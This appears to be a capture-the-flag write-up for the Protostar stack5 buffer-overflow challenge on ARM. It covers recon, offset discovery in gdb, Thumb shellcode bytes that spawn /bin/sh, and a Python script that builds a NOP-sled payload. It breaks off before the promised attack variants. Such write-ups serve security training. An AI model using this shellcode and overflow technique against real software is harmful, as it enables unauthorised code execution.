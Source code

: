 # Stack 5 - Protostar challenge
## Spawn shell

### Recon

First look for security mitigations reveals, that there 
are none of them:
```
$ checksec stack5
[*] '/tmp/stack5'
    Arch:     arm-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000)
    RWX:      Has RWX segments

```

Next step would be to gain some insight into stack5's 
control flow while executing it. Main question would be 
how to interact with program in RAM. Before any 
reversing attempts, let's call binary with ```strace``` 
for getting somw initial guess on possible injection 
vectors:

```
$ strace -i -f "./stack5"
[...]
[76fe821c] mprotect(0x76fb2000, 8192, PROT_READ) = 0
[76fe821c] mprotect(0x76ffe000, 4096, PROT_READ) = 0
[76fe81dc] munmap(0x76fb8000, 88642)    = 0
[76f33a08] fstat64(0, {st_mode=S_IFCHR|0620, 
st_rdev=makedev(136, 0), ...}) = 0
[76f3d174] brk(NULL)                    = 0x21000
[76f3d174] brk(0x42000)                 = 0x42000
[76f34698] read(0, 0x21150, 1024)       = ? ERESTARTSYS 
(To be restarted if SA_RESTART is set)
[76f34694] --- SIGWINCH {si_signo=SIGWINCH, 
si_code=SI_KERNEL} ---
[76f34698] read(0, AAAA
"AAAA\n", 1024)      = 5
[76f0f944] exit_group(0)                = ?
[????????] +++ exited with 0 +++
``` 
Ok, program is reading user input from stdin. Now it 
would be nice to know, if input gets sanitized or 
limited in its length or not.

I first took a look into imported functions from libc 
to find the path into binary that will be taken when 
reading from stdin
```
$ r2 -A ./stack5
[0x000102f4]> afl~imp
0x000102c4    1 12           sym.imp.gets
0x000102d0    1 12           sym.imp.__libc_start_main
0x000102e8    1 12           sym.imp.abort
sym.main 0x10438 [call] bl sym.imp.gets
```

So ```gets``` will be called by main at address 
0x10438. Let's seek to main focussing attention on
location where input get's stored in process memory:

```
0x00010430      sub r3, fp, 0x44
0x00010434      mov r0, r3
0x00010438      bl sym.imp.gets             ;[1] ; char*gets(char *s) 
```

First argument to gets is a pointer to location where 
input has to be stored. Disassemly above reveals, that 
it's 64 bytes away from fp, bingo! That means, that if 
we provide more 68 bytes as user input we should get 
segmentation fault as feedback. 

```
$ printf "A%0.s" {1..68} > /tmp/pattern ; printf "BBBB" >> /tmp/pattern
$ gdb --quiet -q ./stack5
(gdb) r < <(cat /tmp/pattern)
[!] Cannot disassemble from $PC
────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ threads ]────
[#0] Id 1, Name: "stack5", stopped, reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
0x42424240 in ?? ()
```
QED. Program counter has to be 4-byte aligned, that's 
why second last bit in "BBBB" got cleared.

Knowing the offset from input buffer to return address  
we are able to craft our payload to gain control 
over pc register.

### Crafting payload
There are two main approaches we could follow along 
here:

- Simple return to payload attack
- bx_sp-approach

I will show both attempts. Keep reading...
First task while crafting payload would be to construct 
shellcode. Following snippet is an excerpt from radare2's disassembly view of the 16-bit shellcode listed below (Not GNU-Assembler conform syntax):

```
adr r0, 8
eors r1, r1
eors r2, r2
strb r2, [r0, 7]
movs r7, 0xb
svc 1
.string "/bin/shA" ; len=8 
```
Let's use snippet below and set a breakpoint at last instruction in 
```main```'s epilogue and determine address of our 
payload on stack. 

```python
#!/usr/bin/env python2

from __future__ import print_function
import struct

p=lambda x: struct.pack("<I",x)

offset=68

shellcode=b"\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x41"

nopsled=b"\x2d\x46"*512
payload = "A"*offset+p(0x42424242)+nopsled+shellcode
print(payload)
``` 

By the way: i used the approach to first write junk on stack and nopsled/shellcode after it. As en effect there's no restriction on length of buffer we provide. ALSR is deactivated this time, but if it was not, it would be useful to provide large enough buffer for using brute-force attempts for jumping into our own buffer later on.

```

```
